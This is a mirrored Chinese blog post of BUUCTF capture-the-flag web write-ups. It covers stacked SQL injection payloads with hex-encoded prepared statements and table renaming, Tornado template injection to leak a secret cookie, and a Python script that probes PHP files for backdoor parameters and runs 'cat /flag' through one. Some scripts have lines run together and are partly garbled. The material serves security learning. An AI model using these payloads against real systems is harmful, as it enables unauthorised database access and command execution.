<!--yml
category: 未分类
date: 2022-04-26 14:44:42
-->

# 【web】BUUCTF-web刷题记录_weixin_30684743的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30684743/article/details/101336977](https://blog.csdn.net/weixin_30684743/article/details/101336977)

本来一题一篇文章，结果发现太浪费了，所以整合起来了，这篇博文就记录 BUUCTF 的  web 题目的题解吧！

# 随便注

随便输入一个单引号，报错



order by 3就不行了



尝试联合查询的时候出现提示：

```
"/select|update|delete|drop|insert|where|\./i"
```



一个正则可视化网站：https://regexper.com



 使用堆叠注入：1';show tables;#



看一下表里有什么列名：1';show columns from `1919810931114514`;#

（注意，字符串为表名的表操作时要加反引号）



但是没办法使用 select * from `1919810931114514`

看网上师傅们有两种方法，第一种：**mysql 预定义语句**

```
1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;Prepare execsql from @a;execute execsql;#

hex decode 以后是：?inject=1';SeT@a=select * from `1919810931114514`;Prepare execsql from @a;execute execsql;#
```

 

还有一种方法时是：**改表名 **这样查询的时候就可以查询到 flag

```
?inject=1';
rename tables `words` to `test`;rename tables `1919810931114514` to `words`;
alter table `words` change `flag` `id` varchar(100);#
```

意思分别是：把 words 表改名为 test，把 1919810931114541 改名为 words

把列名 flag 改为 id

这样在 1'; or 1=1# 查询的时候就会把所有的都列出来，这样就可以看到 flag 了



# easy_tornado

打开看到有三个文件：



三个文件内容如下：






通过 url 知道，访问一个文件需要知道：filename 跟 filehash



企图直接访问是不行的，想到了 burp 抓包，但是抓了半天没抓到，看了网上的 wp 是 **模版注入**



tornado 是一个 python 的模板，welcome.txt 中的 render 是 python 中的一个渲染函数，

报错时候的 url 是这样的



尝试把后面换成：{{111}}，输出了！



在 tornado 模板中，存在一些可以访问的快速对象，例如：

```
 <title>
     {{ escape(handler.settings["cookie"]) }}
 </title>
```

那么输入：**{{handler.settings}}**



拿到 cookie 就 OK 了！

```
import hashlib
def md5value(s):
    md5 = hashlib.md5() 
    md5.update(s) 
    return md5.hexdigest()
def jiami(): 
    filename = '/fllllllllllllag' cookie_s ="ea7d75de-4ca5-486a-a69c-e690f3a8c217" print(md5value(filename.encode('utf-8'))) x=md5value(filename.encode('utf-8')) y=cookie_s+xprint(md5value(y.encode('utf-8'))) jiami()
```



# 高明的黑客

访问提示源码在 www.tar.gz



在网址后面加上 www.tar.gz 是可以下载下来的



下下来里面超级多 php 文件，用大佬的 python 脚本筛选出来

```
import os,re
import requests
filenames = os.listdir('D:/anquan/localtest/PHPTutorial/WWW/CTFtraining/BUUCTF/src/')
pattern = re.compile(r"\$_[GEPOST]{3,4}\[.*\]")
for name in filenames:
    print(name) with open('D:/anquan/localtest/PHPTutorial/WWW/CTFtraining/BUUCTF/src/'+name,'r') as f: data = f.read() result = list(set(pattern.findall(data))) for ret in result: try: command = 'echo "got it"' flag = 'got it' # command = 'phpinfo();' # flag = 'phpinfo' if 'GET' in ret: passwd = re.findall(r"'(.*)'",ret)[0] r = requests.get(url='http://127.0.0.1/CTFtraining/BUUCTF/src/' + name + '?' + passwd + '='+ command) if "got it" in r.text: print('backdoor file is: ' + name) print('GET: ' + passwd) elif 'POST' in ret: passwd = re.findall(r"'(.*)'",ret)[0] r = requests.post(url='http://127.0.0.1/CTFtraining/BUUCTF/src/' + name,data={passwd:command}) if "got it" in r.text: print('backdoor file is: ' + name) print('POST: ' + passwd) except : pass
```

 我参考的网上的 wp 直接把 x 开头之前的 php 文件删掉了，不然要跑很长时间（php 版本要用 7 以上的）



访问 xk0SzyKwfzw.php?Efa5BVG= cat /flag 得到 flag

